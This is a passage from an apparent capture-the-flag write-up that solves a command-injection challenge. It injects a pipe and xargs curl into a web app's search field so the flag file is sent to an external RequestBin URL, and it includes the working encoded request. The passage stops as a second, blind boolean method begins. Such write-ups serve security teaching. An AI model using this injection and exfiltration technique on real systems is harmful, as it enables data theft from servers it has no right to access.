 ```{% raw %}
By design, the application requests a page on the Internet that we specify and searches it for a string. What if we use a domain under our control and include the flag value in the URL? Something like `http://attacker.hax/<flag>`.

There's a project called [RequestBin](https://github.com/Runscope/requestbin) that provides you a tokenized URL and access to a panel which shows all requests made to that URL. Unfortunately "the" RequestBin has been taken offline due to abuse, but if you Google you can find another one that's up or host your own. 

For the moment I'll use [https://requestbin.fullcontact.com/](https://requestbin.fullcontact.com/). My bin URL is `http://requestbin.fullcontact.com/1m06f111`

Quick POC,

```{% raw %}
root@kali ~/A/c/09# curl http://requestbin.fullcontact.com/1m06f111/flagflagflag
ok
{% endraw %}```

![RCE Cornucopia](/img/rce-cornucopia/rce9-002.png)

If we can get the actual flag value into the URL in place of 'flagflagflag' we're set.

To do this we'll `curl` the file into `xargs` and use that to build a second `curl` command which will hit RequestBin. `xargs` can take piped input and place it in the text of other commands.

Our local POC,

```{% raw %}
root@kali ~/A/c/09# curl file:///tmp/flag.txt | grep flag | xargs -I {} curl http://requestbin.fullcontact.com/1m06f111/{}
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    19  100    19    0     0  19000      0 --:--:-- --:--:-- --:--:-- 19000
ok
{% endraw %}```

![RCE Cornucopia](/img/rce-cornucopia/rce9-004.png)

Success!

Now for the real deal. Search the URL `file:///tmp/flag.txt` for the string `flag | xargs -I {} curl http://requestbin.fullcontact.com/1m06f111/{}`

```{% raw %}
http://127.0.0.1:8089/index.php?url=file%3A%2F%2F%2Ftmp%2Fflag.txt&string=flag+%7C+xargs+-I+%7B%7D+curl+http%3A%2F%2Frequestbin.fullcontact.com%2F1m06f111%2F%7B%7D&submit=Scan
{% endraw %}```

![RCE Cornucopia](/img/rce-cornucopia/rce9-005.png)

And check RequestBin,

![RCE Cornucopia](/img/rce-cornucopia/rce9-006.png)

Success.

## Solution 2 - Blind Boolean

This challenge can be solved without requiring unlimited outbound Internet access from the web server. What if there was a white-list of domains or it could only be used internally on a local network? 

```